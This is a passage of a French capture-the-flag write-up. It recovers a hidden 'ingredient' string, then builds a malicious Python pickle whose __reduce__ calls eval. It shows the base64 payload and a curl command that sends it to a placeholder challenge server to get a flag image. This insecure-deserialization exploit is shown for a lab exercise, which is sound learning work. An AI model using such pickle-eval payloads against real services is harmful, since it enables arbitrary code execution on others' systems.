 ```py
        result += chr(int(b_result, 2))
    return result
            

preparation = "qsnr`"
last_ingredient = find_ingredient(preparation, "flag-")

print(' '.join([bin(ord(char))[2:].zfill(8) for char in last_ingredient]))
print(mix(preparation, last_ingredient))
```

L'ingrédient manquant était donc: `"\xE8\xE0\xF0\xEA\xB2"`

Maintenant il est temps de construire le pickle à envoyer au serveur.
```py
import pickle
import base64
from typing import Tuple

class SetSeed:
    def __reduce__(self) -> Tuple:
        return (eval, ("(lambda : (random.seed(10), ['\xE8\xE0\xF0\xEA\xB2'])[1])()"),)

if __name__ == '__main__':
    pickled = pickle.dumps(SetSeed())
    print(base64.urlsafe_b64encode(pickled))
```

La chaîne de caractère en base64 résultante est la suivante: 
```
gASVTQAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwxKGxhbWJkYSA6IChyYW5kb20uc2VlZCgxMCksIFsnw6jDoMOww6rCsiddKVsxXSkoKZSFlFKULg==
```

Lorsque l'on envoie ces données au serveur, on reçoit une image en base64
```
curl -X GET -d "data=gASVTQAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwxKGxhbWJkYSA6IChyYW5kb20uc2VlZCgxMCksIFsnw6jDoMOww6rCsiddKVsxXSkoKZSFlFKULg==" http://<IP>:<PORT>/get_pickle
```

Une fois le base64 transformé en png, on retrouve l'image:

![flag](./images/flag.png)
